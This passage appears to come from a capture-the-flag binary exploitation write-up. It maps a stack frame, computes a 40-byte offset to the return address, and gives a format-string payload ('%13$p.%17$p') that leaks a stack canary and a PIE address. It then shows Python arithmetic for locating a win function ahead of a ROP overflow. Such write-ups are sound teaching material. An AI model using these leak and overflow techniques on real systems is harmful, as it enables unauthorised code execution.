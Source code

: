 **During Second Input (Overflow):**
```
RBP + 0x8      ← Return Address (target for ROP)
RBP + 0x0      ← Saved Frame Pointer
RBP - 0x8      ← Canary (must match for safe return)
RBP - 0x20     ← Second input buffer (32 bytes, but reads 512!)
```

**Overflow Math:**
- Buffer to canary: 0x20 - 0x8 = 0x18 = 24 bytes
- Canary: 8 bytes
- Saved RBP: 8 bytes  
- **Total offset to return address: 24 + 8 + 8 = 40 bytes**

---

## Phase 3: Exploitation Strategy

### 3.1 Attack Overview

**Multi-Stage Exploitation:**
1. **Stage 1:** Use format string to leak canary value
2. **Stage 2:** Use format string to leak PIE base address
3. **Stage 3:** Calculate address of `get_streak()` function
4. **Stage 4:** Overflow buffer with: padding + canary + RBP + ROP chain

### 3.2 Stage 1: Format String Leak - Canary

**Objective:** Find canary position on stack

The canary is stored at RBP-0x8. Format string arguments start after the 6 register arguments (RDI, RSI, RDX, RCX, R8, R9), then read from stack.

**Testing:** Send `%1$p`, `%2$p`, `%3$p`... and observe which index contains the canary.

Through testing (or using the fuzzer() function), we find:
- **Position 13:** Contains the stack canary
- **Position 17:** Contains a return address (PIE leak)

**Payload:** `%13$p.%17$p`

**Example Output:** `0x726c889ce8ccf300.0x55dba5e00992`
- Canary: 0x726c889ce8ccf300
- Leaked address: 0x55dba5e00992 (points to main function)

### 3.3 Stage 2: Calculate Base Address

**PIE Base Calculation:**
```python
main_leak = 0x55dba5e00992          # Leaked address
main_offset = 0x992                 # From objdump (offset of main)
elf_base = main_leak - main_offset  # 0x55dba5e00000
```

Now all function addresses can be calculated:
```python
get_streak_offset = 0x94c
get_streak_addr = elf_base + get_streak_offset
```
